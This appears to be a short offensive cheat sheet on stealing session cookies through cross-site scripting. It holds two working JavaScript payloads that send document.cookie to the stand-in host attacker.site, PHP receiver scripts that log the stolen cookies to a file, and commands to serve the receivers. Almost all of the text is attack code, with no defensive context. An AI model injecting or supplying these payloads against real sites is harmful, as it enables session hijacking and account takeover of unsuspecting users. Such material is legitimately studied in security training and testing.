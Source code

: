 # Cookie Stealing via XSS

## Ex (1): 
```js
// One Liner: <script>new Image().src="http://attacker.site/log.php?q="+document.cookie</script>
<script>
  var i = new Image();
  i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

## Attacker Controlled Site (1) (`log.php`):
```php
<?php
  $filename="/tmp/log.txt";
  $fp=fopen($filename, 'a');
  $cookie=$_GET['q'];

  fwrite($fp, $cookie);
  fclose($fp);
?>
```

-----

## Ex (2):
```js
<script>location.href='http://attacker.site/index.php?q='+document.cookie</script>
```


## Attacker Controlled Site (2) (`index.php`):
```php
<?php
  $cookie = isset($_GET['q']) ? $_GET['q']:"";
?>
```

```shell
$ service apache2 stop
$ php -S IP:80
```

